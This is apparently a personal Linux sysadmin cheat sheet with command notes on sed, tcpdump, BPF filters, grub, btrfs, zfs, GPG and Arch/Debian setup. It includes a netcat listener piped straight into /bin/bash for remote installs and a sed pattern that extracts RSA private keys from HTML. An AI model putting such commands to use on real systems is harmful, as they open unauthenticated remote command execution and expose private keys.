   run-parts - run scripts or programs in a directory

   run-parts  [--test]  [--verbose] [--report] [--lsbsysinit] [--regex=RE]
       	[--umask=umask] [--arg=argument] [--exit-on-error] [--help] [--version]
       	[--list] [--reverse] [--] DIRECTORY

** sed

   p	print the current pattern space
   h/H	copy/append pattern space to hold space
   g/G	copy/append hold space to pattern space

   x	exchange the contents of the hold and pattern spaces
   d	delete pattern space


   # REGEX
   -r, --regexp-extended

   ip address		[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}
   clear ANSI		sed -r 's///g; s/
//g; s///g; s/[[]0m//g; s/[[][0-9]{1,2}[;][0-9]{1,2}m//g; s/[[][0-9]m//g; s///g;'
   RSA key		'/<textarea.+-----BEGIN RSA PRIVATE KEY-----/,/-----END RSA PRIVATE KEY-----/{h;x;s/\t//g;s/<textarea.+>//g;s/<\/textarea>//g;p}'


     sed -n -e \
	 's/^[ ]*//g' -e \
	 's/[ ]*$//g' -e \
	 's/^[ ]*//g' -e \
	 's/[ ]*$//g' -e \
	 '/user\: unauthenticated/d' -e \
	 '/DNS lookup was \(un\|restricted\)/d' -e \
         '/connection\:/H' -e \
         '/time\:/H' -e \
         '/GET[ ][a-zA-Z]\{3,4\}\:/H' -e \
         '/User-Agent\:/H' -e \
         '/url.category\:/H' -e \
	 '/./d' -e \
	 'x' -e \
	 's/\n\(.*\)\n\(.*\)\n\(.*\)\n\(.*\)\n\(.*\)/\2\1\5\4\3/' -e \
	 's/time\: \(.*\)connection\:/"\1",/' -e \
	 's/connection\://' -e \
	 's/ service.name=\([a-zA-Z]\{4\}\)/"\1"/' -e \
	 's/ client.address=\([0-9]\{1,3\}[\.][0-9]\{1,3\}[\.][0-9]\{1,3\}[\.][0-9]\{1,3\}\)/,"\1"/' -e \
	 's/ proxy.port\=\([0-9]\{2,3\}\)/,"\1"/' -e \
	 's/url.category: \(.*\)User-Agent/,"\1"User-Agent/' -e \
	 's/User-Agent\: \(.*\)GET/,"\1"GET/' -e \
	 's/GET[ ]\(.*\)/,"\1"/' -e \
	 'p' \
	 ${aIn[$i]} > parsed/$(echo "${aIn[$i]}" | sed 's/htm/csv/')

	 sed -e '/./{H;$!d;}' -e 'x;/Administration/!d' thegeekstuff.txt

	 sed '/./{H;$!d};{x;/SGOS 6 Proxy Edition/!d}

*** Lowercase
    sed 's/\(.*\)/\L\1/'

*** Multiple lines
    $ sed -n '/<tr>/,/<\/tr>/p' input.html
    <tr>
    <td> a </td>
    </tr>
    <tr>
    <td> a </td>
    </tr>
    <tr>
    <td> a </td>
    </tr>

*** Print line number
    sed -n '/squidd/{=;p;}' /etc/passwd
    sed -n '/squidd/=' /etc/passwd

** split
  # split --bytes=100m [file] [prefix]
  prefixaa
  prefixab
  prefixac

Usage: split [OPTION]... [INPUT [PREFIX]]
Output fixed-size pieces of INPUT to PREFIXaa, PREFIXab, ...; default
size is 1000 lines, and default PREFIX is `x'.  With no INPUT, or when INPUT
is -, read standard input.

Mandatory arguments to long options are mandatory for short options too.
  -a, --suffix-length=N   use suffixes of length N (default 2)
  -b, --bytes=SIZE        put SIZE bytes per output file
  -C, --line-bytes=SIZE   put at most SIZE bytes of lines per output file
  -d, --numeric-suffixes  use numeric suffixes instead of alphabetic
  -e, --elide-empty-files  do not generate empty output files with `-n'
      --filter=COMMAND    write to shell COMMAND; file name is $FILE
  -l, --lines=NUMBER      put NUMBER lines per output file
  -n, --number=CHUNKS     generate CHUNKS output files.  See below
  -u, --unbuffered        immediately copy input to output with `-n r/...'
      --verbose           print a diagnostic just before each
                            output file is opened
      --help     display this help and exit
      --version  output version information and exit

SIZE is an integer and optional unit (example: 10M is 10*1024*1024).  Units
are K, M, G, T, P, E, Z, Y (powers of 1024) or KB, MB, ... (powers of 1000).

CHUNKS may be:
N       split into N files based on size of input
K/N     output Kth of N to stdout
l/N     split into N files without splitting lines
l/K/N   output Kth of N to stdout without splitting lines
r/N     like `l' but use round robin distribution
r/K/N   likewise but only output Kth of N to stdout

** strings
   Print the strings of printable characters in files

   strings -t d output/wd0e.blkls > output/wd0e.blkls.str		# to pring the byte offset the string was found

** tar
   tar --extract --file={tarball.tar} {file}		# extract one file (prefered)
   tar -xvf {tarball.tar} {path/to/file}			# extract one file (alt.)

** tc
   # Traffic Control (traffic shaping)
   # show / manipulate traffic control settings

** tcpdump
   Usage: tcpdump [flags] [options]


   # Options
   dst/src port 443
   dst/src host google.com
   dst/src net 192.168.1.0/24

   tcp dst portrange 1-1023

   icmp
   arp
   broadcast
   multicast

   # Flags
   -i any		# listen on any interface
   -D			# list all devices
   -c N			# capture N packets
   -s 0			# capture all bytes of data for each packet (snap/packet length)
   -s 1500		# capture first 1500 bytes of each packet
   -n			# no hostname translation
   -nn			# no hostname and port translation
   -r			# read from pcap
   -X			# print each packet in hex and ascii

   # Example
   $ tcpdump -n -s0 -c 5 "(not dst net 208.85.40.0/21) and (not (dst host 140.101.85.129 or dst host 129.188.69.100 or dst host 10.130.223.201 or dst host 140.101.245.16 or dst host 140.101.213.16 or dst host 129.188.69.65 and tcp dst port 1080)) and (not udp dst port 52311) and (not (src host 10.5.20.35 and udp dst port 137))"
   $ tcpdump -n "dst host 192.168.1.1 and (dst port 80 or dst port 443)"
   $ tcpdump -tttt -n -nnvvSA -r <pcap_file>

** tcpreplay
   a tool for replaying network traffic from files saved with tcpdump

   tcpreplay --loop=1 --intf1=eth0 /path/to/pcap

** tmpfs
   # Create RAM disk
   mount -t tmpfs -o size=200M,mode=0744 mount_name /mnt/ram/tmpfs

** top
   A		# additional views
   a,w		# forward, backwards views
   W		# write config to file
   z,x		# change colors

** touch
   Change Modification and Last Accessed
   touch -t 8001031305 oldfile  #sets the modification time of oldfile to 13:05 on January 3, 1980.
   touch -r oldfile newfile # sets the modification time of newfile to that of oldfile.
** wait
   # wait for process to change state
   for job in `jobs -p`
   do
   wait $job
   done

** wine
   # Set Environment Prefix
   export WINEPREFIX=/path/to/.wine

** wget
   -O file
   -P prefix, --directory-prefix=prefix.........Set directory prefix

   --user=
   --password=
   --ask-password

   --no-check-certificate

   You would like the output documents to go to standard output instead of to files?
   wget -O - http://jagor.srce.hr/

** xargs
   find . -name "*.bak" -print0 | xargs -P0 -I {} mv {} ~/old.files

   xargs -i sh -c 'command1; command2; ...'

** xfs_growfs
    # Grow xfs filesystem
    xfs_growfs /var/netwitness/broker 		# data blocks changed from ####### to ######

** yum
[root@NWAPPLIANCE1282 yum.repos.d]# cat netwitness.repo
[nwupdates]
name=Netwitness-Updates-Repo
baseurl=http://10.25.53.102/rsa/updates
enabled=1
gpgcheck=1
sslverify=1
sslcacert=/etc/pki/CA/certs/RSACorpCAv2.pem

*** Enable/disable repository
     Make sure that the nwupdates repo (netwitness.repo) is always enabled in every command

     yum --enablerepo=nwupdates clean all
     yum --enablerepo=nwupdates check-update

** zfs
http://www.freebsd.org/cgi/man.cgi?query=zpool&sektion=8

*** zfs : zpool replace pool dev
    # zpool replace pool_name new_disk_at_same_location
    zpool replace honeycomb ad6

*** zfs : zpool status
    zpool status -v

*** zfs : zpool online -e pool dev
    zpool online -e honeycomb ad6

*** Expanding existing pool with larger drives
    Example: 3x 500 GB RAID5 system

    zpool replace honeycomb ad6

    # Check status
    zpool status -v

    # Bring the drive online to recognize the new capacity
    zpool online -e honeycomb ad6
    zpool online -e honeycomb ad8
    zpool online -e honeycomb ad10

** zgrep
   # grep compressed files!

** nfs
  # Linux Network File System

  # TCP port 2049
  In order for NFS to work with a default installation of Red Hat Enterprise Linux with a firewall enabled, configure IPTables with the default TCP port 2049. Without proper IPTables configuration, NFS will not function properly.

  # Required services
nfs
    service nfs start starts the NFS server and the appropriate RPC processes to service requests for shared NFS file systems.
nfslock
    service nfslock start activates a mandatory service that starts the appropriate RPC processes which allow NFS clients to lock files on the server.
rpcbind
    rpcbind accepts port reservations from local RPC services. These ports are then made available (or advertised) so the corresponding remote RPC services can access them. rpcbind responds to requests for RPC services and sets up connections to the requested RPC service. This is not used with NFSv4.

The following RPC processes facilitate NFS services:

rpc.mountd
    This process is used by an NFS server to process MOUNT requests from NFSv2 and NFSv3 clients. It checks that the requested NFS share is currently exported by the NFS server, and that the client is allowed to access it. If the mount request is allowed, the rpc.mountd server replies with a Success status and provides the File-Handle for this NFS share back to the NFS client.
rpc.nfsd
    rpc.nfsd allows explicit NFS versions and protocols the server advertises to be defined. It works with the Linux kernel to meet the dynamic demands of NFS clients, such as providing server threads each time an NFS client connects. This process corresponds to the nfs service.
lockd
    lockd is a kernel thread which runs on both clients and servers. It implements the Network Lock Manager (NLM) protocol, which allows NFSv2 and NFSv3 clients to lock files on the server. It is started automatically whenever the NFS server is run and whenever an NFS file system is mounted.
rpc.statd
    This process implements the Network Status Monitor (NSM) RPC protocol, which notifies NFS clients when an NFS server is restarted without being gracefully brought down. rpc.statd is started automatically by the nfslock service, and does not require user configuration. This is not used with NFSv4.
rpc.rquotad
    This process provides user quota information for remote users. rpc.rquotad is started automatically by the nfs service and does not require user configuration.
rpc.idmapd
    rpc.idmapd provides NFSv4 client and server upcalls, which map between on-the-wire NFSv4 names (which are strings in the form of user@domain) and local UIDs and GIDs. For idmapd to function with NFSv4, the /etc/idmapd.conf must be configured. This service is required for use with NFSv4, although not when all hosts share the same DNS domain name.

** btrfs
*** /etc/fstab
    # if you don't have an initrd, or if it doesn't perform btrfs device scan
    /dev/sdb /mnt btrfs device=/dev/sdb,device=/dev/sdc,device=/dev/sdd,device=/dev/sde 0 0

*** compression
    # btrfs filesystem defragment -r -v -clzo /
    # mount -o remount,compress=lzo /dev/sdXY /mnt/target
    compress=zlib
    compress=lzo

*** converting to raid
    # mount /dev/sdb1 /mnt
    # btrfs device add /dev/sdc1 /mnt
    # btrfs balance start -dconvert=raid1 -mconvert=raid1 /mnt

*** make raid
    # mkfs.btrfs -m raid6 /dev/sdb1 /dev/sdc1 /dev/sdd1 /dev/sdc1


*** btrfs device add
    # add new devices to a mounted filesystem

*** btrfs device delete
    # mkfs.btrfs /dev/sdb1 /dev/sdc1 /dev/sdd1
    # mount /dev/sdb1 /mnt
    # btrfs device delete /dev/sdc1 /mnt

*** btrfs device delete missing /mnt
    # mount -o degraded /dev/sdb1 /mnt
    # 'missing' is a special device name
    # btrfs device delete missing /mnt
*** btrfs device scan <device>
    # scan all drives
    # scan a single drive

*** btrfs filesystem balance
    ## can balance (restripe) the allocated extends across all of the exiting devices. For example, with an existing filesystem mounted at /mnt, you can add the device /dev/sdc to it with
    # btrfs device add /dev/sdc /mnt
    ## at this point we have a filesystem with two devices, but all of the metadata and ata are still stored on the original device(s). The filesystem must be balanced to spread the files across all of the devices
    # btrfs filesystem balance /mnt

*** btrfs filesystem defragment [-rv] [-c lzo] <mount>
    # re-compress the whole file system with lzo

*** btrfs filesystem show
    # gives you a list of all the btrfs filesystems on the systems and which devices they include

** grep
   -H, --with-filename
   -h, --no-filename
   -n, --line-number

** Xorg

*** minimal /etc/X11/xorg.conf driver selection
Section "Device"
        Identifier      "n"
        Driver          "nouveau"
EndSection

* BPF
  # Berkeley Packet Filters
  Examples


  The following filter will drop packets to or from any address in the 10.21.0.0/16 subnet:
  not (net 10.21.0.0/16)

  The following filter will drop packets that have both source and destination addresses in the 10.21.0.0/16 subnet:
  not (src net 10.21.0.0/16 and dst net 10.21.0.0/16)

  The following filter will drop packets that are from 10.21.1.2 or are headed to 10.21.1.3.
  not (src host 10.21.1.2 or dst host 10.21.1.3)

  The following filter combines both IP and HOST:
  not (host 192.168.1.10) and not (host api.wxbug.net)

  The following filter will drop all port 53 traffic, both TCP & UDP:
  not (port 53)

  The following filter will drop only UDP port 53 traffic:
  not (udp port 53)

  The following filter will drop all IP protocol 50 (IPSEC) traffic:
  not (ip proto 50)

  The following filter will drop all traffic on TCP ports 133 through 135.
  not (tcp portrange 133-135)

  The following filters combine some of the above to demonstrate how to put multiple directives into one filter:
  not (port 53) and not (src host 10.21.1.2 or dst host 10.21.1.3) # drops any port 53(DNS) traffic sourced from 10.21.1.2 or destined to 10.21.1.3.
  not (ip proto 50 or port 53) or not (src net 10.21.0.0/16 and dst net 10.21.0.0/16) # drops any traffic using IP proto 50 or port 53 or any traffic from net 10.21.0.0/16 destined to net 10.21.0.0/16

  Note: The usage of parenthesis can have a large and potentially disruptive effect on the use of Packet Filters.  As a best practice keep "not" operatiors outside of parentheses and always test your rules before deploying them.  Failure to properly format your rules (despite input validation) can cause a packet filter to drop ALL traffic or behave in other unexpected ways.  This is due to the way packet Libpcap filters work and is not the result of any logic within NetWitness software.


  Testing

  BPF filters can and should be tested using either tcpdump or windump to ensure that they will provide the expected behavior before implementing them.

  windump -nni 2 not (port 53 or port 443) or not (ip proto 50)


  Conversions

  If for the sake of performance you have decided that an existing "Net Rule Filter" would be better running as a System-Level Packet Filter, then you can convert it.  There are a few things to remember when doing conversions.

      "||" or "or"
      "&&" or "and"
      "!" or "not"
      "ip.addr" becomes "host" if a single host or "net" if a network.
      "ip.src" becomes "src host" if a single host or "src net" if a network.
      "ip.dst" becomes "dst host" if a single host or "dst net" if a network.
      Use CIDR notation when listing a network.  (i.e. 10.10.10.0/24)
      Multiple rules must be joined with "and"


  The manual for TCPDump also gives examples of filters and strings that can be used.
  http://www.tcpdump.org/tcpdump_man.html


  Additionally, the following site provides and excellent reference for BPF-style packet filters.
  http://biot.com/capstats/bpf.html

  !! Note: if you are capturing vlan tagged packets, above standard bpf filter may not work. For example, if you use not (udp port 123) to filter vlan tagged NTP traffic on udp port 123, it will not work. This is because the bpf filter machinery is simple and does not account for protocols not referenced in the rule. So the OS executing the bpf filter will look for the udp port values at the byte offset they would occur in a standard Ethernet/udp packet; but the optional vlan tag fields in the Ethernet header pushes those values by 4 bytes, thus the bpf filter rule will fail. To fix it, you need to change the bpf filter to: not (vlan and udp port 123) !!

* cygwin
  # Packages to install
  curl
  procps			# watch
  rsync
  wget
  emacs
  screen
  ssh

  netcat
  dig

* Drivers
** Drivers : 0 : Check driver used
   ethtool --driver eth0
   ethtool -i eth0

** Drivers : 1 : Uninstall previous driver
   rpm -e ixgbe

** Drivers : 2 : Install new driver
   rpm -ivh ixgbe-3.15.1-11.el6.x86_64.rpm

** Drivers : 3 : unload the driver
   rmmod ixgbe

** Drivers : 4 : load the new driver
   modprobe -v ixgbe

* ecryptfs
** Manual Mounting
   ecryptfs-add-passphrase --fnek

   sudo mount -t ecryptfs ./ ./ -o key=passphrase,ecryptfs_cipher=aes,ecryptfs_key_bytes=16,ecryptfs_passthrough=no,ecryptfs_enable_filename_crypto=yes

* emacs
  load-library					# Load lisp library
  follow-mode					# one buffer in more windows
  C^x C^f /ssh:user@host#port:/path/to/file	# TRAMP mode !! =]

  C^u M-x eshell				# new eshell

  C-c C-o     (org-open-at-point)		# open org-mode link
  C-x <RET> f (set-buffer-file-coding-system)	# set buffer encoding
  C-x <RET> c coding (universal-coding-system-argument)
						# Specify coding system coding for the immediately following command
  C-x <RET> r (revert-buffer-with-coding-system)
						# Revisit the current file using the coding system coding

  M^u						# Capitalize word



  # dir-mode
  Flagging Many Files at Once

  The #, ~, ., % &, and % d commands flag many files for deletion, based on their file names:

  #
  Flag all auto-save files (files whose names start and end with ‘#’) for deletion (see Auto Save).

  ~
  Flag all backup files (files whose names end with ‘~’) for deletion (see Backup).

  . (Period)
  Flag excess numeric backup files for deletion. The oldest and newest few backup files of any one file are exempt; the middle ones are flagged.

  % &
  Flag for deletion all files with certain kinds of names which suggest you could easily create those files again.

  % d regexp <RET>
    Flag for deletion all files whose names match the regular expression regexp.

* fstab
 Field definitions

The /etc/fstab file contains the following fields separated by a space or tab:

 <file system>        <dir>         <type>    <options>             <dump> <pass>

    <file system> - the partition or storage device to be mounted.
    <dir> - the mountpoint where <file system> is mounted to.
    <type> - the file system type of the partition or storage device to be mounted. Many different file systems are supported: ext2, ext3, ext4, btrfs, reiserfs, xfs, jfs, smbfs, iso9660, vfat, ntfs, swap and auto. The auto type lets the mount command guess what type of file system is used. This is useful for optical media (CD/DVD).
    <options> - mount options of the filesystem to be used. Note that some mount options are filesystem specific. Some of the most common options are:

        auto - Mount automatically at boot, or when the command mount -a is issued.
        noauto - Mount only when you tell it to.
        exec - Allow execution of binaries on the filesystem.
        noexec - Disallow execution of binaries on the filesystem.
        ro - Mount the filesystem read-only.
        rw - Mount the filesystem read-write.
        user - Allow any user to mount the filesystem. This automatically implies noexec, nosuid, nodev, unless overridden.
        users - Allow any user in the users group to mount the filesystem.
        nouser - Allow only root to mount the filesystem.
        owner - Allow the owner of device to mount.
        sync - I/O should be done synchronously.
        async - I/O should be done asynchronously.
        dev - Interpret block special devices on the filesystem.
        nodev - Don't interpret block special devices on the filesystem.
        suid - Allow the operation of suid, and sgid bits. They are mostly used to allow users on a computer system to execute binary executables with temporarily elevated privileges in order to perform a specific task.
        nosuid - Block the operation of suid, and sgid bits.
        noatime - Don't update inode access times on the filesystem. Can help performance (see atime options).
        nodiratime - Do not update directory inode access times on the filesystem. Can help performance (see atime options).
        relatime - Update inode access times relative to modify or change time. Access time is only updated if the previous access time was earlier than the current modify or change time. (Similar to noatime, but doesn't break mutt or other applications that need to know if a file has been read since the last time it was modified.) Can help performance (see atime options).
        discard - Issue TRIM commands to the underlying block device when blocks are freed. Recommended to use if the filesystem is located on an SSD.
        flush - The vfat option to flush data more often, thus making copy dialogs or progress bars to stay up until all data is written.
        nofail - Mount device when present but ignore if absent. This prevents errors being reported at boot for removable media.
        defaults - the default mount options for the filesystem to be used. The default options for ext4 are: rw, suid, dev, exec, auto, nouser, async.

    <dump> - used by the dump utility to decide when to make a backup. Dump checks the entry and uses the number to decide if a file system should be backed up. Possible entries are 0 and 1. If 0, dump will ignore the file system; if 1, dump will make a backup. Most users will not have dump installed, so they should put 0 for the <dump> entry.

    <pass> - used by fsck to decide which order filesystems are to be checked. Possible entries are 0, 1 and 2. The root file system should have the highest priority 1 (unless its type is btrfs, in which case this field should be 0) - all other file systems you want to have checked should have a 2. File systems with a value 0 will not be checked by the fsck utility.

* grub
** Installing grub to disk
*** 1. grub-install --boot-directory=/mnt/boot /dev/sda
*** 2. grub-mkconfig > /mnt/boot/grub/grub.cfg

** custom ramdisk?
  linux (loop)/pmagic/bzImage isofrom=/dev/sdc5/pmagic-3.4.iso root=/dev/ram0 livecd boot=live quiet vga=791 noeject noprompt sleep=0 tmpfs_size=220M ramdisk_size=25000

** gfxpayload (new vga)
  set gfxpayload=1024x768x16,1024x768
  set gfxpayload=1280x1024x24,1280x1024

** grub setup
  find /boot/grub/stage1

  grub> root (hd0,1)
  grub> setup (hd0)
  grub> quit


  grub> rootnoverify (hd0,0)
  grub> makeactive
  grub> chainloader +1
  grub> boot

** grub loopback
menuentry "Try BackBox without installing" {
	linux	/casper/vmlinuz  file=/cdrom/preseed/backbox.seed boot=casper iso-scan/filename=${iso_path} quiet splash --
	initrd	/casper/initrd.gz
}
menuentry "Install BackBox" {
	linux	/casper/vmlinuz  file=/cdrom/preseed/backbox.seed boot=casper only-ubiquity iso-scan/filename=${iso_path} quiet splash --
	initrd	/casper/initrd.gz
}
menuentry "Check disc for defects" {
	linux	/casper/vmlinuz  boot=casper integrity-check iso-scan/filename=${iso_path} quiet splash --
	initrd	/casper/initrd.gz
}
menuentry "Test memory" {
	linux16	/install/mt86plus
}

** isoinfo
   To help you figure out the path of the kernel and the command line options, examining the contents of the ISO file can be helpful. This can be done without privileges using the isoinfo tool that comes with the genisoimage/mkisofs suite:

   isoinfo -R -i /media/sdc1/boot/file.iso -f

   isoinfo -R -i /media/sdc1/boot/file.iso -x /isolinux/isolinux.cfg

** kernel parameters
  debug		See cool stuff
  mem=1024M	Force usage of specific amount of memory to be used when the kernel is not able to see the whole system memory.

** load to ram
  toram noeject

** locate iso
  fromiso
  iso-scan/filename
  find_iso/filename

** Loopback
  loopback loop /backbox.iso
  linux (loop)/casper/vmlinuz boot=casper iso-scan/filename=/backbox.iso --
  initrd (loop)/casper/initrd.gz

** preseed file
  file=/cdrom/preseed/mint.seed boot=casper iso-scan/filename=/linuxmint10.iso --

** resume fix
  /boot/vmlinuz-3.2.6 root=UUID=<your disk uuid> resume=/dev/disk/by-uuid/<your swap disk UUID goes here> ro text splash vga=791

** vga modes (depreciated)
  vga=xxx
|      depth | 640x480 | 800x600 | 1024x768 | 1280x1024 |
|        256 |     769 |     771 |      773 |       775 |
|      32000 |     784 |     787 |      790 |       793 |
|      65000 |     785 |     788 |      791 |       794 |
| 16.7 Mill. |     786 |     789 |      792 |       795 |

** COMMAND : grub-set-default N
   # To set Linux as default
   default saved
   timeout 10

   title GNU/Hurd
   root (hd0,0)
   ...

   title GNU/Linux
   root (hd0,1)

   grub> grub-set-default 1

** Set Default kernel
   default 1
   timeout 10

   title GNU/Hurd
   root (hd0,0)
   ...

   title GNU/Linux
   root (hd0,1)

** set default and failover
   default 0
   timeout 10
   fallback 1 2

   title A (This is menu number 0)
   root (hd0,0)
   kernel /kernel
   savedefault fallback

   title B (This is menu number 1)
   root (hd1,0)
   kernel /kernel
   savedefault fallback

   title C This is menu number 2)
   root (hd2,0)
   kernel /kernel
   savedefault

* grub 2.0
**  booting from DM-RAID support for RAID [0?] 1, 4, 5, 6, 9 and 10 [or 1x?]
*** RAID
    Booting from RAID Array

    The documentation on this subject, along with booting from encrypted physical volumes, is close to null. As I do not boot from a RAID array, anyone who managed to boot from a complex RAID array is welcomed to complete this section.
    Note
    Booting from RAID is only relevant for BIOS [boot]. EFI users shall roll out their custom initramfs or use an initramfs package available out there. Depending on your setup, you may use a BIOS/MBR or BIOS/GPT combination. Here is an example to a BIOS/GPT setup with `/boot' and `root' [`/'] on RAID-1 [1] and Xen on RAID-5.
    Note
    A note here about grub2-mkdevicemap and UUID re-setting has been removed. grub2-mkdevicemap is no longer distributed. The UUID problem doesn't appear to exist. Installing to the two devices making a RAID1 array seemed to work with no problem; i.e grub2-install /dev/sda && grub2-install /dev/sdb (after creating the expected ef02/bios boot partition).

    Booting from a RAID array is very similar to booting from a LVM Logical Volume aside from RAID specific terminology and syntax of raid partitioned volume.
    [Collapse]
    Code

    ...
    insmod raid
    #    and load the related `mdraid' module `mdraid09' for raid arrays with version 0.9 metadata, and `mdraid1x' for arrays with version 1.x metadata.
    insmod mdraid09
    set root=(md0p1)
    #    or the following for an unpartitioned raid array
    set root=(md0)
    ...

    Note
    RAID user might merge the live ebuild to get the latest bit of fixes and updates.
    Note
    There's a nVidia (dm_nv) specific module for RAID 3/5, so something like `insmod dm_nv' is necessary for related hardware.

    I can guess tat this should work with a simple software RAID setup. However, I have no idea or what command, if any exit at the moment of writing, to use to assemble an array such as `mdadm --assemble --scan /dev/md0' that an initramfs could take care of.

*** LVM
    Booting from LVM Logical Volumes

    GRUB2 supports booting from an LVM partition. However, one must set the device-mapper USE flag in order to activate this feature:
    [Collapse]
    File/etc/portage/package.use

    sys-boot/grub:2 device-mapper

    Reemerge if needed. Next tell GRUB2 to preload its "lvm" module,
    root # echo "GRUB_PRELOAD_MODULES=lvm" >> /etc/default/grub

    And (re)generate grub.cfg with grub2-mkconfig.

*** LUKS
    Booting from LUKS Physical Volume

    Tell GRUB2 to look for cryptodisks
    root # echo "GRUB_CRYPTODISK_ENABLE=y" >> /etc/default/grub

    and (re)generate grub.cfg with grub2-mkconfig.

    Now generate a core image and install GRUB2 in the MBR.
    root # grub2-install --modules="configfile linux crypto search_fs_uuid luks" /dev/sda

*** PXE
    Booting from the network (PXE)

    The following instructions only work on PC BIOS systems where the Preboot eXecution Environment (PXE) is available.

    To generate a PXE boot image, run:

    grub-mkimage --format=i386-pc-pxe --output=grub.pxe --prefix='(pxe)/boot/grub' pxe pxecmd

    Copy grub.pxe, /boot/grub/*.mod, and /boot/grub/*.lst to the PXE (TFTP) server, ensuring that *.mod and *.lst are accessible via the /boot/grub/ path from the TFTP server root. Set the DHCP server configuration to offer grub.pxe as the boot file (the ‘filename’ option in ISC dhcpd).

    You can also use the grub-mknetdir utility to generate an image and a GRUB directory tree, rather than copying files around manually.

    After GRUB has started, files on the TFTP server will be accessible via the ‘(pxe)’ device.

    The server and gateway IP address can be controlled by changing the ‘(pxe)’ device name to ‘(pxe:server-ip)’ or ‘(pxe:server-ip:gateway-ip)’. Note that this should be changed both in the prefix and in any references to the device name in the configuration file.

    GRUB provides several environment variables which may be used to inspect or change the behaviour of the PXE device:

    ‘net_pxe_ip’
    The IP address of this machine. Read-only.
    ‘net_pxe_mac’
    The network interface's MAC address. Read-only.
    ‘net_pxe_hostname’
    The client host name provided by DHCP. Read-only.
    ‘net_pxe_domain’
    The client domain name provided by DHCP. Read-only.
    ‘net_pxe_rootpath’
    The path to the client's root disk provided by DHCP. Read-only.
    ‘net_pxe_extensionspath’
    The path to additional DHCP vendor extensions provided by DHCP. Read-only.
    ‘net_pxe_boot_file’
    The boot file name provided by DHCP. Read-only.
    ‘net_pxe_dhcp_server_name’
    The name of the DHCP server responsible for these boot parameters. Read-only.
    ‘net_default_server’
    The default server. Read-write, although setting this is only useful before opening a network device.

** set default
   # file /etc/default/grub
   GRUB_DEFAULT=0
   GRUB_HIDDEN_TIMEOUT=0
   GRUB_HIDDEN_TIMEOUT_QUIET=true
   GRUB_TIMEOUT=10
   GRUB_DISTRIBUTOR=`lsb_release -i -s 2> /dev/null || echo Debian`
   GRUB_CMDLINE_LINUX_DEFAULT="quiet splash"
   GRUB_CMDLINE_LINUX=""

* GPG
  --ignore-time-conflict
  --no-options
  --no-default-keyring
  --homedir /tmp/tmp.swJmMw133a
  --no-auto-check-trustdb
  --trust-model always
  --keyring /etc/apt/trusted.gpg
  --primary-keyring /etc/apt/trusted.gpg

** gpg --edit-key [key/email]

** gpg --passwd key

** gpg -a --armor
   # Create ASCII armored output

** gpg -a -c --symmetric
   # Encrypt with a symmetric cipher

** gpg -a -e --encrypt
   # Encrypt with top-most or default key

** gpg -a -e -s --sign -u --local-user
   # Select key to encrypt and sign with

** gpg -k --list-keys --list-public-keys

** gpg -K --list-secret-keys


** GPG : Add email to existing key
   gpg2> adduid

** GPG : Create New Key
   gpg2 -a --gen-key
   # -a		ASCII Armored

** GPG : Export Private Key
   gpg2 -a --output file.asc --export-secret-keys mykey

** GPG : Export Public Key
   gpg2 -a --output file.asc --export mykey

** GPG : Generate Revocation Certificate
   gpg -a --output revoke.asc --gen-revoke mykey

** GPG : Selecting keyring
   --keyring /etc/apt/trusted.gpg
   --primary-keyring /etc/apt/trusted.gpg

** GPG : Set primary uid
   gpg2> uid n
   # uid n - Toggle selection of user ID or photographic user ID with index n. Use * to select all and 0 to deselect all.
   gpg2> primary

** GPG : Set signing key
   gpg2 --armor --sign-with D48026AA --detach-sign --output Release.gpg Release
   # --sign-with <key-id>

** GPG : Verify signature
   gpg2 -v --verify Release.gpg Release

* LINUX
** How to know if a network interface is tap, tun, bridge or physical?
   Physical devices have a /sys/class/net/eth0/device symlink
   Bridges have a /sys/class/net/br0/bridge directory
   TUN and TAP devices have a /sys/class/net/tap0/tun_flags file
   Bridges and loopback interfaces have 00:00:00:00:00:00 in /sys/class/net/lo/address

** Install flash plugin for Chrome
   # Manually - currently not working
   mkdir -p /opt/google/chrome/plugins
   cp libflashplayer.so /opt/google/chrome/plugins
   cp –r usr/* /usr

   # Using PepperFlash
   Install pepperflashplugin-nonfree
   run update-pepperflashplugin-nonfree

* LINUX : ARCH
** ARCH : hostnamectl
   hostnamectl set-hostname myhostname --static

** ARCH : Installation
   pacstrap /mnt base base-devel
   arch-chroot /mnt pacman -S grub-bios
   !!install grub!!
   !!update grub.cfg to boot right device!!

   pacman -Si sudo
   pacman -Si emacs
   pacman -Si openssh
   rc.d start sshd

*** nc install
    echo "mkfs.ext4 /dev/sda1 && mount /dev/sda1 /mnt && pacstrap /mnt base base-devel && for p in "grub" "openssh" "smbclient"; do pacman -S --noconfirm $p; done && echo DONE" | nc -l 8888

    echo "for p in "emacs" "openssh"; do arch-chroot /mnt pacman -Sy --noconfirm $p; done && echo DONE" | nc 10.0.1.111 8888


    This works:
    echo "mkfs.ext4 /dev/sda1 && mount /dev/sda1 /mnt && pacstrap /mnt base && arch-chroot /mnt && for p in "emacs" "openssh"; do pacman -S --noconfirm $p; done && echo DONE && exit" | nc 10.0.1.111 8888
    nc -lp 8888 | /bin/bash

    Packages only:
    echo "arch-chroot /mnt && for package in "openssh" "sudo"; do pacman -Sy --noconfirm $package; done && echo DONE && exit" | nc 10.0.1.111 8888

** ARCH : netcfg
/etc/conf.d/netcfg

    Parameters for startup.
/etc/network.d/

    User-defined profiles.



/usr/lib/network/connections/

    Currently installed network profile types.
/etc/network.d/examples/

    Example profiles.
/usr/share/doc/netcfg/contrib/

    Inspirational scripts.

** ARCH : pacman
   pacman -Syy
     Sync, refresh (Download a fresh copy of master package list defined in pacman.conf)
   pacman -Syu
     Sync, refresh, sysupgrade
   pacman -Sui
     Sync (aka install), update, show info

** ARCH : show device name
   ls /sys/class/net

** ARCH : systemctl
   systemctl enable sshd
   systemctl enable sshd.service

* LINUX : DEBIAN
** Static IP
   # Configure a static IP in debian

   #The loopback interface
   auto lo
   iface lo inet loopback
   auto eth0
   iface eth0 inet static
   #your static IP
   address 192.168.1.118
   #your gateway IP
   gateway 192.168.1.1
   netmask 255.255.255.0
   #your network address "family"
   network 192.168.1.0
   broadcast 192.168.1.255

** Force remove/purge package
   # dpkg --force-all -P <package>
   # dpkg --force-all -r <package>

** dpkg-scanpackages /deb/path | gzip -9c > Packages.gz

* LINUX : UBUNTU
** COMMAND : add-apt-repository
   # Add repository
   add-apt-repository --enable-source "deb file:///skylab/repos /"

** COMMAND : apt-key
   # Add/remove trusted repository GPG keys

   apt-key add <public-key>
   apt-key del <key-id>

